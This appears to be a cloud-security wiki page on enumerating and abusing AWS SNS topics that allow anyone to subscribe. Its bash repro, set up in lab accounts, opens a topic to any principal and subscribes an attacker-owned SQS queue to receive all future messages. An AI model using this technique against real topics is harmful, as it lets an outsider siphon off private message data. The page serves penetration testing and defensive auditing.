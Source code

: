 # AWS - SNS Unauthenticated Enum

## SNS

For more information about SNS check:

[[../../aws-services/aws-sns-enum.md]]

### Open to All

When you configure a SNS topic from the web console it's possible to indicate that **Everyone can publish and subscribe** to the topic:

![](../../../../images/image (212).png)

So if you **find the ARN of topics** inside the account (or brute forcing potential names for topics) you can **check** if you can **publish** or **subscribe** to **them**.

That would be equivalent to a SNS topic resource policy allowing `sns:Subscribe` to `*` (or to external accounts), any principal can create a subscription that delivers all future topic messages to an SQS queue they own. When the queue owner initiates the subscription, no human confirmation is required for SQS endpoints.

<details>
**Repro (us\-east\-1\)**

```bash
REGION=us-east-1
# Victim account (topic owner)
VICTIM_TOPIC_ARN=$(aws sns create-topic --name exfil-victim-topic-$(date +%s) --region $REGION --query TopicArn --output text)

# Open the topic to anyone subscribing
cat > /tmp/topic-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"OpenSubscribe","Effect":"Allow","Principal":"*","Action":"sns:Subscribe","Resource":"$VICTIM_TOPIC_ARN"}]}
JSON
aws sns set-topic-attributes --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --attribute-name Policy --attribute-value file:///tmp/topic-policy.json

# Attacker account (queue owner)
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name attacker-exfil-queue-$(date +%s) --region $REGION --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Allow the victim topic to send to the attacker queue
cat > /tmp/sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowVictimTopicSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$ATTACKER_Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$VICTIM_TOPIC_ARN"}}}]}
JSON
aws sqs set-queue-attributes --queue-url "$ATTACKER_Q_URL" --region $REGION --attributes Policy="$(cat /tmp/sqs-policy.json)"

# Subscribe the attacker queue to the victim topic (auto-confirmed for SQS)
SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --protocol sqs --notification-endpoint "$ATTACKER_Q_ARN" --query SubscriptionArn --output text)

# Validation: publish and receive
aws sns publish --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --message {pii:ssn:123-45-6789}
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --query Messages[0].Body --output text
```

</details>


